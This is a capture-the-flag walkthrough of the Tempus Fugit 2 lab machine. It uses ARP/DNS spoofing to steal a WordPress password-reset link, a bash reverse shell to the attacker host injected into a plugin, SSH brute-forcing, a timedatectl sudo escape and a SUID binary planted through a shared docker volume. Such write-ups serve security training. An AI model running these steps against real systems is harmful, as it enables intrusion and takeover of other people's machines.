








Start with an Nmap scan.

```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-04-09 20:44 EDT
Nmap scan report for tf2.lan (192.168.86.134)
Host is up (0.00015s latency).
Not shown: 65533 closed ports
PORT   STATE    SERVICE VERSION
22/tcp filtered ssh
80/tcp open     http    Apache httpd 2.4.25 ((Debian))
|_http-generator: WordPress 5.2.3
| http-robots.txt: 1 disallowed entry 
|_/wp-admin/
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Tempus Fugit 2 &#8211; Back in business
MAC Address: 00:0C:29:AC:02:DE (VMware)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.28 seconds
```
Only two ports with 1 being filtered. Navigating to port 80 I am greeted with a wordpress site.



Using `wpscan` to enumerate the page I find that there are two users. 
```
[+] admin
 | Found By: Wp Json Api (Aggressive Detection)
 |  - http://192.168.86.136/wp-json/wp/v2/users/?per_page=100&page=1
 | Confirmed By:
 |  Rss Generator (Aggressive Detection)
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] tommy
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)
```
I try to navigate to `http://192.168.86.136/wp-login.php` but it redirects me to `http://tf2/wp-login.php` and fails to load the page. This means I need to add the page to my `/etc/hosts` file.
```
127.0.0.1       localhost
127.0.1.1       kali
192.168.86.136  tf2

# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```
After trying to guess the correct credentials and coming up empty handed I decided to try DNS spoofing to reset the admin users password. To do this I will user Ettercap. To get started first I need to edit my `/etc/ettercap/etter/dns` file. Comment out all the Microsoft domains and add an A record for your ip address like the one I have below
```
#microsoft.com      A   107.170.40.56 1800
#*.microsoft.com    A   107.170.40.56 3600
#www.microsoft.com  PTR 107.170.40.56      # Wildcards in PTR are not allowed
* A 192.168.86.135
```

Next, open the graphical version of Ettercap. In the top right, click on the 3 vertical dots, then click on `Hosts > Scan for Hosts`



Next click on `Hosts > Hosts list` and choose the IP of the TF2 virtual machine. Then click `Add to Target 1`.



Next, click on the globe icon in the top right and choose `ARP Poisoning`. Make sure that `Sniff remote connections` is selected and click OK.



Lastly, click on the 3 vertical dots again, go to `Plugins > Manage plugins` and double click on `dns_spoof`



Now if I try to send a password reset link for the admin user I can see that ettercap intercepts the email 



Now I just need to set up my own email server to capture that email. Easiest way to do that is with python's smtpd module. Once that is done and I hit the reset password, I end up capturing the email with the password reset link
```
root@kali:~/Documents/Vulnhub/Tempus-2# sudo python -m smtpd -n -c DebuggingServer 192.168.86.135:25
---------- MESSAGE FOLLOWS ----------
Date: Fri, 10 Apr 2020 19:59:51 +0000
To: tfadmin@tempusfugit2.com
From: Tempus Fugit 2 <tfadmin@f20.be>
Subject: [Tempus Fugit 2] Password Reset
Message-ID: <0e14fbfc4653c3a376edbabe1cc334ba@tf2>
X-Mailer: WPMailSMTP/Mailer/smtp 1.6.2
MIME-Version: 1.0
Content-Type: text/plain; charset=UTF-8
X-Peer: 192.168.86.136

Someone has requested a password reset for the following account:

Site Name: Tempus Fugit 2

Username: admin

If this was a mistake, just ignore this email and nothing will happen.

To reset your password, visit the following address:

<http://TF2/wp-login.php?action=rp&key=xfvXWJ0YXRJigQZ9QKHp&login=admin>

------------ END MESSAGE ------------
```



I can now log in as the admin user. Looking around the Dashboard I find a private post that gives some interesting information. 


This hints that I need to do some port knocking, most likely to open up port 22. It gives a hint for the sequence as well. Looking up "Jennys number" reveals a song that was release back in 1981.



Lets try knocking with `1981, 867, 5309`. Using a simple bash script I knock on the 3 ports.
```
root@kali:~# for i in 1981 867 5309
> do
> nc 192.168.86.136 $i;
> done
Ncat: Connection refused.
Ncat: Connection refused.
Ncat: Connection refused.
```
Then if I can port 22 it will now be open.
```
root@kali:~# nmap -p 22 192.168.86.136                                                                                                                                                                         
Starting Nmap 7.80 ( https://nmap.org ) at 2020-04-10 16:09 EDT                                                                                                                                                 
Nmap scan report for tf2 (192.168.86.136)
Host is up (0.00042s latency).

PORT   STATE SERVICE
22/tcp open  ssh
MAC Address: 00:0C:29:83:5F:89 (VMware)

Nmap done: 1 IP address (1 host up) scanned in 0.22 seconds
```
Problem is I dont have any credentials yet so ill come back to port 22 later. Now, looking at the wordpress plugins, I can give myself a reverse shell by simple editing the existing plugin to execute a reverse shell by removing the existing php code and replacing it with the single line below
```
shell_exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.86.135/9999 0>&1'")
```
Doing some enumeration I find that I am actually in a docker container and not on the actual system just yet. Some further enumeration will reveal a file locate `/var/www/html/wp-content/TFDocuments/nb.txt`. Inside the file is what looks like a base64 encoded string
```
$ cat nb.txt
dmVsZXRhOjlnNGx3MHI4MnF1MQo=
```
Decoding the string finally gives me some credentials.
```
$ cat nb.txt | base64 -d
veleta:9g4lw0r82qu1
```
Using those credentials I ssh in and now I am finally on the box. I run `sudo -l` to see if I can execute anything with sudo privileges and turns out I can.
```
veleta@TF2:~$ sudo -l
[sudo] password for veleta: 
Matching Defaults entries for veleta on TF2:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User veleta may run the following commands on TF2:
    (ealasaid) /usr/bin/timedatectl
veleta@TF2:~$ 
```
To exploit these sudo permissions I run the command.
```
sudo -u ealasaid /usr/bin/timedatectl list-timezones
```
This opens up a list of all of the timezones available. By typing `!/bin/bash` it will spawn a shell as ealasaid
```
Africa/Porto-Novo
!/bin/bash
ealasaid@TF2:/home/veleta$ 
```
From here I can read the `user.txt` file
```
ealasaid@TF2:~$ cat user.txt 
a81be4e9b20632860d20a64c054c4150
```
Now also located in the user's home directory is a `list` text file. Inside that text file is what looks like the running docker containers
```
CONTAINER ID        IMAGE                           COMMAND                  CREATED             STATUS              PORTS                 NAMES
1786dd63dedb        wordpress:5.1.1-php7.3-apache   "docker-entrypoint.s…"   21 hours ago        Up 8 hours          0.0.0.0:80->80/tcp    wp_wordpress_1
91e4af64d213        mysql:5.7                       "docker-entrypoint.s…"   21 hours ago        Up 8 hours          3306/tcp, 33060/tcp   wp_db_1
```
The problem is I can't access them since I dont have the permission or maybe I do but I do not have the user's password to check. Doing some enumeration I found that I have access to the `/root` directory. Inside the directory there was an interesting `wp` folder.
```
ealasaid@TF2:/root$ ls
proof.sh  wp
```
Inside that wp folder it turns out is the same TFDocuments folder as was inside the docker container. SO was the `nb.txt` file. It looks like the files created here are shared in the docker container.
```
ealasaid@TF2:/root/wp/wp-content/TFDocuments$ ls
nb.txt
```
For now I was pretty much stuck as I couldn't write to the folder na dI cant execute docker commands. This lead me to try and bruteforce the users ssh password. After a few minutes I was successfull
```
[22][ssh] host: 192.168.86.136   login: ealasaid   password: dakota
```
Now running `sudo -l` with the new password I can see that I do have some sudo privileges
```
ealasaid@TF2:~$ sudo -l
[sudo] password for ealasaid: 
Matching Defaults entries for ealasaid on TF2:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User ealasaid may run the following commands on TF2:
    (ALL) /usr/bin/docker exec *
```
Now using the sudo privileges I log into the docker container but this time as the root user
```
ealasaid@TF2:~$ sudo /usr/bin/docker exec -it 1786dd63dedb /bin/bash
root@1786dd63dedb:/var/www/html# whoami
root
```
Now to test the theory that the folders are shared I just create a test file in the docker container
```
root@1786dd63dedb:/var/www/html/wp-content/TFDocuments# ls -la
total 32
drwxr-xr-x 2 root     root     4096 Apr 10 21:12 .
drwxr-xr-x 7 www-data www-data 4096 Apr 10 20:17 ..
-rw-r--r-- 1 root     root       29 Apr 10 00:42 nb.txt
-rw-r--r-- 1 root     root        0 Apr 10 21:12 test
```
Then I go and check the root folder on the system to see if the file is there. Luckily it is.
```
ealasaid@TF2:/root/wp/wp-content/TFDocuments$ ls -la
total 32
drwxr-xr-x 2 root     root     4096 Apr 10 23:12 .
drwxr-xr-x 7 www-data www-data 4096 Apr 10 22:17 ..
-rw-r--r-- 1 root     root       29 Apr 10 02:42 nb.txt
-rw-r--r-- 1 root     root        0 Apr 10 23:12 test
```
Now the easiest way to get a root shell is to just create a SUID binary in the docker container and execute it on the host system. Simple 4 lines of C code will do the trick.
```
int main(void) {
    setgid(0); setuid(0);
    execl("/bin/sh","sh",0);
}
```
Compile it and then give it the proper permissions
```
root@1786dd63dedb:/var/www/html/wp-content/TFDocuments# gcc shell.c -o shell
root@1786dd63dedb:/var/www/html/wp-content/TFDocuments# chmod 4755 shell
```
Now going back to the host system, I execute the binary and get a shell as root.
```
ealasaid@TF2:/root/wp/wp-content/TFDocuments$ ./shell
# whoami
root
```
From here I can run the `proof.sh` script
```
  ____                _                        _    _ 
 / ___|_ __ ___  __ _| |_  __      _____  _ __| | _| |
| |  _| '__/ _ \/ _` | __| \ \ /\ / / _ \| '__| |/ / |
| |_| | | |  __/ (_| | |_   \ V  V / (_) | |  |   <|_|
 \____|_|  \___|\__,_|\__|   \_/\_/ \___/|_|  |_|\_(_)
                                                      
Tempus Fugit 2 pwned...
__________________________________________________________________________

Proof: This is it! ;-)
Path: /root
Date: Fri 10 Apr 2020 11:21:16 PM CEST
Whoami: root
__________________________________________________________________________


October 12, the Discovery.

It was wonderful to find America, but it would have been more wonderful to miss
it.
                -- Mark Twain, "Pudd'nhead Wilson's Calendar"

Thanks to my teammates in @m0tl3ycr3w for betatesting! :-)
@0xmzfr, @theart42, @plaintext, @DCAU7, @D4mianWayne
```
